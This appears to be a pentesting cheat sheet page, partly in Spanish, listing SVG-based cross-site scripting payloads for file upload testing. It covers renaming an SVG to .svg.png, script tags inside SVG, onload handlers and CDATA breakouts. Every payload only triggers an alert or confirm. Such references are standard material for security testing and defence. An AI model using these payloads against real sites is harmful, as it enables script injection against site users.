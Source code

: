 #### 1° Method (svg inside of png)

Rename the file name from:

“fileupload.svg” to “fileupload.svg.png”:

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

#### 2° Method (svg)

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("1");
   </script>
</svg>
```

#### 3° Method (svg)

```xml
<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg onload="confirm(8)" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
</svg>
```

### XSS in SVG (short)

Cree una imagen "svg" que contenga cada uno de los siguientes payloads:

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
```
```javascript
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
```
```javascript
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```
```javascript
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```
